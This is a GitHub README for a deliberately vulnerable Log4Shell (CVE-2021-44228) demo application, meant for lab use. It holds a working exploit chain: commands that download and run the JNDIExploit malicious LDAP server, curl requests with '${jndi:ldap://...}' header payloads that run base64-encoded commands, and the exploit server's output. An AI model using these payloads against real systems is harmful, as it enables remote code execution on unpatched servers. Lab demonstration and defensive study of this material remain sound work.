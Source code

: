 # Log4Shell sample vulnerable application (CVE-2021-44228)

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228,
nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1) and the JDK 1.8.0_181.

![](./screenshot.png)

## Running the application

Run it:

```bash
docker run --name vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

Build it yourself (you don't need any Java-related tooling):

```bash
docker build . -t vulnerable-app
docker run -p 8080:8080 --name vulnerable-app vulnerable-app
```

### Without docker

    gradle clean bootJar --no-daemon
    java -jar ./build/libs/log4shell-vulnerable-app-0.0.1-SNAPSHOT.jar

And to send the exploit:

    curl 127.0.0.1:8080 -H 'X-Api-Version: <PAYLOAD>'

## Exploitation steps

*Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/)
. **Run at your own risk, preferably in a VM in a sandbox environment**.*

**Update (Dec 13th)**: *The JNDIExploit repository has been removed from GitHub (
presumably, [not by GitHub](https://twitter.com/_mph4/status/1470343429599211528)). Just append `web.archive.org` in
front of the JNDIExploit download URL below to use the version cached by the Wayback Machine.*

* Use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up a malicious LDAP server

```bash
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```

* Then, trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

* Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:

```
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo
[+] Paylaod: command
[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://192.168.1.143:8888/Exploitjkk87OnvOH.class
[+] New HTTP Request From /192.168.1.143:50119  /Exploitjkk87OnvOH.class
[+] Receive ClassRequest: Exploitjkk87OnvOH.class
[+] Response Code: 200
```

* To confirm that the code execution was successful, notice that the file `/tmp/pwned.txt` was created in the container
  running the vulnerable application:

```
$ docker exec vulnerable-app ls /tmp
...
pwned
...
```

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/

## Contributors

[@christophetd](https://twitter.com/christophetd)
[@rayhan0x01](https://twitter.com/rayhan0x01)

## TL;DR POC/easy start

### Start vulnerable target

    git clone https://github.com/HenryFBP/log4shell-vulnerable-app
    cd log4shell-vulnerable-app
    gradle clean bootJar --no-daemon
    java -jar ./build/libs/log4shell-vulnerable-app-0.0.1-SNAPSHOT.jar

### Start attacker's LDAP server

    git clone https://github.com/HenryFBP/JNDI-Exploit-Server
    cd JNDI-Exploit-Server
    # mvn clean package # disabled due to issues with dependencies.
    java -jar .\etc\JNDIExploit-1.2-SNAPSHOT-from-black9-Log4shell_JNDIExploit.jar -i localhost -p 8081

### Send payload to vulnerable target (need GNU curl.exe...)

    choco install -y curl
    curl.exe 127.0.0.1:8080 -H "X-Api-Version: ${jndi:ldap://localhost:1389/Basic/Command/Base64/Y2FsYy5leGU=}"
